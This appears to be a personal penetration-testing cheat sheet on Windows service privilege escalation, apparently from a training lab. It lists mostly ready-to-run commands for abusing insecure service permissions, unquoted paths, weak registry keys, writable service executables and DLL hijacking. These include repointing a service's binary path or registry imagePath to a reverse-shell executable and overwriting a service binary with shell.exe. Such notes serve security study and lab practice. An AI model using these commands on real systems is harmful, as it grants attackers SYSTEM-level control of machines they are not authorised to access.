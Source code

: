 # Service Exploits
-------

```cmd
sc.exe qc <name> REM query service configuration

sc.exe query <name> REM query current status

sc.exe config <name> <option>= <value> REM modify configuration option

net start/stop <name> REM start stop

accesschk.exe /accepteula -ucqv user regsvc REM check permissions for a service

accesscheck.exe /accepteula -uvw "C:\Program Files"
REM check permissions
```

Winpeas:
```cmd
.\winPEASany.exe quiet servicesinfo
```

Check the service status using:
```cmd
sc.exe query "C:\Program Files\Development Files\Devservice Files\Service.exe"
```

If we have shutdown privilege, restart the computer to restart the service
```cmd
shutdown.exe -r -f -t 1
```


---------------

## Insecure Service Permissions

If the user has permissions to change the configuration of a service which runs with SYSTEM privileges, we can change the executable the service uses to a malicious one; granted we can start/stop the service or restart the machine.

Using winpeas to enumerate services information: 
```cmd
.\winPEASany.exe quiet serviceinfo
```

```cmd
daclsvc(DACL Service)["C:\Program Files\DACL Service\daclservice.exe"] - Manual - Stopped

YOU CAN MODIFY THIS SERVICE: ChangeConfig
```

Using access check to check permissions:
```cmd
.\accesschk.exe /accepteula -uwcqv user daclsvc
```

Query  service configuration:
```cmd
sc qc daclsvc
```

Query service status:
```cmd
sc query daclsvc
```

Set the binary path to the location of the payload:
```
sc config daclsvc binpath= "\"C:\Temp\reverse.exe""
```

Start the service:
```cmd
net start daclsvc
```

--------------

## Unquoted Service Paths

https://www.hackingarticles.in/windows-privilege-escalation-unquoted-service-path/
https://www.ired.team/offensive-security/privilege-escalation/unquoted-service-paths

Checking for unquoted service paths:
```cmd
HKLM\SYSTEM\CurrentControlSet\Services\Servicename
```

```cmd
cmd /c wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
```

Checking if we have write permissions over the directory using accesschk:

```cmd
accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
```

Create an executable and place it in the folder; then restart the service.

-----------------

## Weak Registry Permissions

Lookout for **Modify any service registry** in winpeas

```
Check if you can modify the registry of a service

HKLM\system\currentcontrolset\services\regsvc (Interactive [FullControl])
```

Once found, we can edit registry entry for a service; we can use powershell or accesschk to verify permissions:

```bash
sc.exe qc regsvc
```

```cmd
reg query HKLM\system\currentcontrolset\services\regsvc
```


```cmd
reg add HKLM\system\currentcontrolset\services\regsvc /v imagePath /t REG_EXPAND_SZ /d C:\Users\user\Desktop\shell.exe /f
```

```cmd
net start regsvc
```

```Powershell
Get-Acl HKLM:\System\CurrentControlSet\Services\regsvc | Format-List
```

```cmd
.\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
```

- [ ] Check more on this!!!!!!!

-------------------

## Insecure Service Executables

If the original service exe is modifiable by our user, we can replace it w a malicious one to get back a reverse shell.

```cmd
filepermsvc(File Permissions Service)["C:\Program Files\File Permissions Service\filepermservice.exe"]

File Permissions: Everyone [AllAccess]
```

```cmd
icacls "C:\Program Files\File Permissions Service\filepermservice.exe"
```

```cmd
copy shell.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y
```

```
net start filepermsvc
```

-------------


## DLL Hijacking

If a DLL is loaded with an absolute path and is writable by our user, we can elevate privileges.

We can also abuse this if a DLL is missing from the system and our user has write access to the directory.
